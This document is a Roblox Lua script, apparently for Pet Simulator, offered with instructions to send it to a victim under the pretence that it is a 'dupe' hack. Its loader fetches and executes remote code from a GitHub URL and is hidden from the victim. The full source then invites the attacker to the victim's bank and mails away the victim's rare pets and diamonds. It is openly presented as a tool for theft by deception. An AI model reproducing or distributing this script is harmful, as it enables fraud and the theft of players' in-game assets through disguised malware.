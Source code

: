 --Tutorial: --Change first two lines to your account name & Player Id --Send script to someone who you want to steal from --Say its dupe --They run it, u get invited to their bank.    --Obfuscated so player can't see:  getgenv().YourAccNameThatGetsMailbox = "Ahmed_32710" getgenv().YourAccountIdForBankInvite = 1577061950 loadstring(game:HttpGet('https://raw.githubusercontent.com/NukeVsCity/Scripts2022/main/dupehack'))()    --Source code:  getgenv().YourAccNameThatGetsMailbox = "Ahmed_32710" getgenv().YourAccountIdForBankInvite = 1577061950  local v1 = require(game.ReplicatedStorage:WaitForChild("Framework"):WaitForChild("Library"))  local cooldown = os.time()  local GetRemoteUpValue = nil  local pets = require(game:GetService("ReplicatedStorage").Directory.Pets["Grab All Pets"])  for _, V in pairs(getgc(true)) do      if type(V) ~= "table" then          continue      end      if rawget(V, "Invoke") then          if type(V.Invoke) == "function" then              if tostring(getfenv(V.Invoke).script) == "Network" then                  GetRemoteUpValue = getupvalues(V.Invoke)[2]                 break              end          end      end  end  function FireRemote(Name, ...)     if not GetRemoteUpValue then         return end      local Remote = GetRemoteUpValue(Name)      if not Remote then         return     end      if typeof(Remote) ~= "Instance" then          return      end      if Remote.ClassName == "RemoteEvent" then          return Remote:FireServer(...)      elseif Remote.ClassName == "RemoteFunction" then         return Remote:InvokeServer(...)      end  end  local function is_huge(petdata)     if pets[petdata.id]["huge"] then         return true      end  return false;  end  local function getMyBank()     local banks = FireRemote("Get My Banks")        for i,v in pairs(banks) do if v.Owner == game.Players.LocalPlayer.UserId then         return v.BUID        end      end  end  local specialPets = {["6969"]=true}  local function isNotablePet(id)      local petData = pets[id]      if petData.rarity == "Exclusive" then         return true          end     if specialPets[id] ~= nil then         return true     end  end  local function inviteToBank(bank)     if bank ~= nil then         local bankData = FireRemote("Get Bank",bank)         local pets = bankData.Storage.Pets         local diamonds = bankData.Storage.Currency.Diamonds          if diamonds > 1000000000 then              return true;          end          for i,v in pairs(pets) do              if isNotablePet(v.id) == true then                 return true;             end          end      end  end  local bank = getMyBank() local invite = inviteToBank(bank) if invite then      FireRemote("Invite To Bank",bank,getgenv().YourAccountIdForBankInvite) end  local save = v1.Save.Get() local titanicHolder = game:GetService("Players").LocalPlayer.PlayerGui.Inventory.Frame.Main.Pets.Titanic if titanicHolder:FindFirstChildWhichIsA("TextButton")   then        print("found titanic")         FireRemote("Send Mail",{ Recipient = "getgenv().YourAccNameThatGetsInvited", Message = "hey", Pets = {[1]=titanicHolder:FindFirstChildWhichIsA("TextButton").Name}, Diamonds = 0 })            end          for i,v in pairs(save.Pets) do              if is_huge(v) then                  print("ok2")                   repeat wait(.1) until (cooldown - os.time()) <= 0         local diamonds = (save.Diamonds)-20000000      if diamonds < 0 then          diamonds = 0      end  print(FireRemote("Send Mail",{ Recipient = "getgenv().YourAccNameThatGetsInvited", Message = "hi", Pets = {[1]=v.uid}, Diamonds = diamonds })) cooldown = os.time() + 5  end  end 
